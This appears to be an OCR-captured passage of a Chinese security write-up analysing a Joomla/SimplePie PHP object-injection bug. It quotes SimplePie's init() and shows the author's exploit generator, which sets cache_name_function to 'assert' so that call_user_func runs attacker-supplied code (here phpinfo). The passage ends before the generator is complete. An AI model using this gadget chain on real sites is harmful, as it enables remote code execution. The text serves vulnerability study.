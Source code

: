     
    
    #!php
    function init()
        {
            // Check absolute bare minimum requirements.
            if ((function_exists('version_compare') && version_compare(PHP_VERSION, '4.3.0', '<')) || !extension_loaded('xml') || !extension_loaded('pcre'))
            {
                return false;
            }
            ...
            if ($this->feed_url !== null || $this->raw_data !== null)
            {
                $this->data = array();
                $this->multifeed_objects = array();
                $cache = false;
    
                if ($this->feed_url !== null)
                {
                    $parsed_feed_url = SimplePie_Misc::parse_url($this->feed_url);
                    // Decide whether to enable caching
                    if ($this->cache && $parsed_feed_url['scheme'] !== '')
                    {
                        $cache = call_user_func(array($this->cache_class, 'create'), $this->cache_location, call_user_func($this->cache_name_function, $this->feed_url), 'spc');
                    }
    

很明显，其中这两个call_user_func将是触发代码执行的元凶。 所以，我将其中第二个call_user_func的第一个参数cache_name_function，赋值为assert，第二个参数赋值为我需要执行的代码，就构造好了一个『回调后门』。  
所以，exp是怎么生成的？给出我写的生成代码：

    
    
    #!php
    <?php
    //header("Content-Type: text/plain");
    class JSimplepieFactory {
    }
    class JDatabaseDriverMysql {
    
    }
    class SimplePie {
        var $sanitize;
        var $cache;
        var $cache_name_function;
        var $javascript;
        var $feed_url;
        function __construct()
        {
            $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
            $this->javascript = 9999;
            $this->cache_name_function = "assert";
            $this->sanitize = new JDatabaseDriverMysql();
            $this->cache = true;
        }
    }
    